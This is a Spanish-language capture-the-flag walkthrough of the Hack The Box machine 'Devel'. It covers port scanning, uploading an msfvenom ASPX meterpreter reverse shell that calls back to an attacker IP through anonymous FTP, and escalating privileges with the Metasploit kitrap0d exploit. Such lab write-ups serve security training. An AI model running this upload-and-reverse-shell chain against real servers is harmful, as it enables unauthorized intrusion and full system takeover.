 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 3/10/2017'
---
```


# Devel

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.5
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-15 154035.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.5
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 21 (FTP):** FTP es un protocolo de transferencia de archivos, y su mayor riesgo es la posibilidad de acceso anónimo o el uso de credenciales débiles. Asegúrate de verificar si el acceso anónimo está habilitado, ya que esto permitiría a cualquier persona conectarse sin credenciales. También es importante comprobar si el servidor está configurado para permitir la conexión sobre FTP sin cifrado, ya que los datos y las credenciales se transmiten en texto claro, lo que facilita la interceptación.
* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 10.10.10.5
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es un **Microsoft IIS**. Como tenemos el puerto 21 con el usuario Anonymous podemos subir un archivo **.aspx** y hacer una Reverse Shell.

### 🚀 **EXPLOTACIÓN**

Creamos el archivo malicioso.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o shell.aspx
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo subimos a través de FTP.

```bash
ftp 10.10.10.5
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos mediante la URL y conseguimos la conexión con **meterpreter**.

```
shell
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se accede al directorio `C:\Windows\TEMP` para operar en un área temporal segura.

```bash
meterpreter > cd %TEMP%
meterpreter > pwd
```

Se mantiene la sesión abierta mientras se ejecutan otros módulos en Metasploit.

```bash
meterpreter > background
```

Buscar el módulo de recomendación de exploits locales y ejecutarlo.

```
msf6 exploit(multi/handler) > search suggester
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options
msf6 post(multi/recon/local_exploit_suggester) > sessions -l
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el exploit `exploit/windows/local/ms10_015_kitrap0d.`

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.7
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions -l
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 2
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
